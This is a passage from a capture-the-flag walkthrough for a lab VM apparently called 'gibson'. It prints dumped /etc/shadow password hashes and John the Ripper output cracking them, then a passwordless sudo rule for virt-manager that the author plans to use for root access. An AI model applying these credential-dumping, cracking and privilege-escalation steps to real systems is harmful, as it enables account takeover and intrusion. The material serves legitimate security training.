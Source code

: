 ```
libvirt-dnsmasq:!:16921:0:99999:7:::
duke:$6$xRLSRx7x$O.REaRUKj6zM.ZAYFBfZEfq.iyoiHKlpNCFlh9D8gQBfRdldL05vAxHmjuTgriKCetSADyWyLKvklZhcQp7mu1:16928:0:99999:7:::
colord:*:16922:0:99999:7:::
eugene:$6$UU15rhob$qZ5B2VjeCk9QIlxXS6QDf9MuxFpNkfAQTc3V3ny.57kLHLj1aOdLnmprfL53niAfztzGMLJqSZaS79sYY1X1a/:16928:0:99999:7:::
margo:$6$Nx0eYFUO$f99BzOSc/hBLbflCsV5912gdcNNUKRi/xGTz7xldbr402BQ367eN.GsCScejNNotaJg9oQPhqdzqq/DcHCKYD/:16928:0:99999:7:::
convert.im6: unable to open image `/tmp/magick-rCN9wlXv': No such file or directory @ error/blob.c/OpenBlob/2638.
convert.im6: unable to open file `/tmp/magick-rCN9wlXv': No such file or directory @ error/constitute.c/ReadImage/583.
convert.im6: no images defined `out.png' @ error/convert.c/ConvertImageCommand/3044.
``` 

I cracked the hashes for `duke` and `eugene` with John the Ripper, which was surprisingly fast.

```
root@kali:~/gibson# john hashes.txt 
Created directory: /root/.john
Warning: detected hash type "sha512crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:07 75.42% 1/3 (ETA: 18:47:31) 0g/s 811.3p/s 811.3c/s 811.3C/s 9999955..d9999957
secret           (eugene)
love             (duke)
god              (margo)
3g 0:00:00:16 DONE 2/3 (2016-05-17 18:47) 0.1806g/s 729.3p/s 740.8c/s 740.8C/s fiction..jethrotull
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## Eugene

`duke` seemed a pretty normal user, but `eugene` was good news. From the sudoers file I found out that `eugene` could execute another command as root:

```
eugene ALL=(ALL) NOPASSWD: /usr/bin/virt-manager 
```

Which I honestly had no idea what it was. After some googling, I learned that `virt-manager` is a VM manager! Then I remembered the hints given at the description of the challenge:

>- It doesn't matter what your local subnet is, as long as you keep away from the 192.168.122.0/24 subnet.
>- SSH can forward X11.
>- The challenge isn't over with root. The flag is not where you expect to find it.

The network part was interesting.

```
eugene@gibson::~$ ifconfig
eth0      Link encap:Ethernet  HWaddr 08:00:27:af:47:ca  
          inet addr:192.168.56.102  Bcast:192.168.56.255  Mask:255.255.255.0
          inet6 addr: fe80::a00:27ff:feaf:47ca/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:143078 errors:0 dropped:0 overruns:0 frame:0
          TX packets:140857 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:9389412 (9.3 MB)  TX bytes:11069499 (11.0 MB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
```